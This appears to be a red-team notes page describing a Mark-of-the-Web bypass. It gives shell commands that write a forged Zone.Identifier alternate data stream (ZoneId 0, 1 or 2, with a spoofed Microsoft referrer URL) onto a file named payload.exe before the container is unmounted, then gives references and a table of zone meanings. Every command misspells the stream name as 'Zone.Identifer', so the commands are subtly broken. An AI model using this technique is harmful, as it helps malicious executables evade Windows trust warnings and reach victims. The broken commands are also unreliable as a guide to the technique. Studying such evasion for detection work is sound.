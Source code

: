 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - defense-evasion
  - scenarios
  - windows
---
```

# 03 - Spoof ZoneTransfer (MOTW Bypass)

```
$ echo -e "[ZoneTransfer]\nZoneId=0" > /mnt/ntfs/payload.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=1" > /mnt/ntfs/payload.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=2\nReferrerUrl=https://learn.microsoft.com\nHostUrl=https://download.sysinternals.com/files/PsExec.exe" > /mnt/ntfs/payload.exe:Zone.Identifer
```

Unmount the container.

```
$ sudo umount /mnt/ntfs/
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/10 - Hidden Artifacts/Hide Artifacts/Windows/Steganography/Alternate Data Streams/Living off the Land|Windows: Hide Artifacts]]

- [Red Canary: Mark-of-the-Web Bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)

- [SecurityLiterate.com: How Malware Abuses the Zone Identifier to Circumvent Detection and Analysis](https://securityliterate.com/how-malware-abuses-the-zone-identifier-to-circumvent-detection-and-analysis/)

### Table Reference

| Zone Identifier | Description                                                                                                           |
| :-------------: | --------------------------------------------------------------------------------------------------------------------- |
|        0        | File originates from the local machine. It has the least security restriction.                                        |
|        1        | File originated from the local intranet (local network). Both zone identifier 0 and 1 indicate a high level of trust. |
|        2        | Indicates the file was downloaded from a trusted site. This can spoofed by attackers by manipulating the ADS.         |
|        3        | Indicates the file was downloaded from the internet and it is generally untrusted.                                    |
|        4        | Indicates that the file came from a likely unsafe source.                                                             |
